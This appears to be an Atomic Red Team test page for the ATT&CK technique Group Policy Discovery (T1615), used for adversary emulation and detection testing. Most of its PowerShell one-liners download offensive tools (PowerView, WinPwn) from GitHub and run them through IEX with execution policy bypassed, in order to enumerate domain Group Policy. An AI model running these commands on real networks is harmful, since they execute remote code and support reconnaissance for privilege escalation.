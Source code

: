 # T1615 - Group Policy Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1615)
<blockquote>Adversaries may gather information on Group Policy settings to identify paths for privilege escalation, security measures applied within a domain, and to discover patterns in domain objects that can be manipulated or used to blend in the environment. Group Policy allows for centralized management of user and computer settings in Active Directory (AD). Group policy objects (GPOs) are containers for group policy settings made up of files stored within a predictable network path `\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.(Citation: TechNet Group Policy Basics)(Citation: ADSecurity GPO Persistence 2016)

Adversaries may use commands such as <code>gpresult</code> or various publicly available PowerShell functions, such as <code>Get-DomainGPO</code> and <code>Get-DomainGPOLocalGroup</code>, to gather information on Group Policy settings.(Citation: Microsoft gpresult)(Citation: Github PowerShell Empire) Adversaries may use this information to shape follow-on behaviors, including determining potential attack paths within the target network as well as opportunities to manipulate Group Policy settings (i.e. [Domain or Tenant Policy Modification](https://attack.mitre.org/techniques/T1484)) for their benefit.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Display group policy information via gpresult](#atomic-test-1---display-group-policy-information-via-gpresult)

- [Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView](#atomic-test-2---get-domaingpo-to-display-group-policy-information-via-powerview)

- [Atomic Test #3 - WinPwn - GPOAudit](#atomic-test-3---winpwn---gpoaudit)

- [Atomic Test #4 - WinPwn - GPORemoteAccessPolicy](#atomic-test-4---winpwn---gporemoteaccesspolicy)

- [Atomic Test #5 - MSFT Get-GPO Cmdlet](#atomic-test-5---msft-get-gpo-cmdlet)


<br/>

## Atomic Test #1 - Display group policy information via gpresult
Uses the built-in Windows utility gpresult to display the Resultant Set of Policy (RSoP) information for a remote user and computer
The /z parameter displays all available information about Group Policy. More parameters can be found in the linked Microsoft documentation
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/gpresult
https://unit42.paloaltonetworks.com/emissary-trojan-changelog-did-operation-lotus-blossom-cause-it-to-evolve/
Turla has used the /z and /v parameters: https://www.welivesecurity.com/wp-content/uploads/2020/05/ESET_Turla_ComRAT.pdf

**Supported Platforms:** Windows


**auto_generated_guid:** 0976990f-53b1-4d3f-a185-6df5be429d3b






#### Attack Commands: Run with `command_prompt`! 


```cmd
gpresult /z
```






<br/>
<br/>

## Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView
Use PowerView to Get-DomainGPO This will only work on Windows 10 Enterprise and A DC Windows 2019.

**Supported Platforms:** Windows


**auto_generated_guid:** 4e524c4e-0e02-49aa-8df5-93f3f7959b9f






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/86921fbbf4945441e2f9d9e7712c5a6e96eed0f3/empire/server/data/module_source/situational_awareness/network/powerview.ps1'); Get-DomainGPO"
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - GPOAudit
Check domain Group policies for common misconfigurations using Grouper2 via GPOAudit function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** bc25c04b-841e-4965-855f-d1f645d7ab73






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPOAudit -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - GPORemoteAccessPolicy
Enumerate remote access policies through group policy using GPORemoteAccessPolicy function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7230d01a-0a72-4bd5-9d7f-c6d472bc6a59






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPORemoteAccessPolicy -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #5 - MSFT Get-GPO Cmdlet
The Get-GPO cmdlet gets one Group Policy Object (GPO) or all the GPOs in a domain. Tested on Windows Server 2019 as a domain user with computer joined to domain. Reference: https://docs.microsoft.com/en-us/powershell/module/grouppolicy/get-gpo?view=windowsserver2022-ps

**Supported Platforms:** Windows


**auto_generated_guid:** 52778a8f-a10b-41a4-9eae-52ddb74072bf





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| gpo_output | The output of the Get-GPO cmdlet | string | $env:temp&#92;GPO_Output.txt|
| gpo_param | You can specify a GPO by its display name or by its globally unique identifier (GUID) to get a single GPO, or you can get all the GPOs in the domain through the All parameter | string | -All|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Get-GPO -Domain $ENV:userdnsdomain #{gpo_param} >> #{gpo_output}
```

#### Cleanup Commands:
```powershell
del $env:temp\GPO_Output.txt -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Add Rsat.ActiveDirectory.DS
##### Check Prereq Commands:
```powershell
if(Get-WindowsCapability -Online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0
```
##### Description: Add Rsat.GroupPolicy.Management.Tools ###Two RSAT Modules needed for this to work on Win10, WinServer 2019 works by default. This will take a long time (almost 2 minutes) to install RSAT Manually###.
##### Check Prereq Commands:
```powershell
if(Get-WindowsCapability -Online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0
```




<br/>
